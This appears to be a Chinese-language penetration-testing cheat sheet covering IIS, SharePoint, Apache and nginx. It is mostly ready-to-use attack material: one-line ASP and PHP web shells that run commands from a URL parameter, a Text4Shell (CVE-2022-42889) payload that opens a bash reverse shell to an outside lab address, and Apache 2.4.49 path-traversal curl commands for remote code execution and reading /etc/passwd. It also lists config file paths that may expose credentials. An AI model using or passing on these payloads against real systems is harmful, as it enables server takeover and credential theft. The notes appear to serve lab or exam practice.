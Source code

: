可以尝试上传 web.config
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Configuration%20IIS%20web.config/web.config

shell.aspx

shell.asp
```asp
<%response.write CreateObject("WScript.Shell").Exec(Request.QueryString("cmd")).StdOut.Readall()%>
```

cmd.php
```php
<?php system($_GET['cmd']); ?>
```

**web.config 默认位置，其中可能包含密码或用户名等敏感信息**
`C:\inetpub\wwwroot\web.config`

### SharePoint
最好添加一下主机名到 hosts 文件中
**常见目录**
```
_layouts/viewlsts.aspx

```


### Apache
**配置文件目录**
```
/etc/apache2/sites-enabled/000-default.conf
```

**Apache Commons Text 1.8**
https://github.com/kljunowsky/CVE-2022-42889-text4shell
PAYLOAD: (无回显，直接弹反弹 shell 就好)
```
?query=%24%7bscript%3ajavascript%3ajava.lang.Runtime.getRuntime().exec('%2fbin%2fbash%20-c%20bash%24IFS%249-i%3e%26%2fdev%2ftcp%2f192.168.45.199%2f2233%3c%261')%7d
```


**Apache 2.4.49 EXP**
```bash
curl -X POST -d 'echo;id' http://192.168.152.245/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh   (RCE)
curl http://192.168.152.245/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
curl http://192.168.152.245/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/etc/passwd
```


### nginx
**配置文件目录**
```bash
/etc/nginx/sites-enabled
/etc/nginx/sites-available/
```

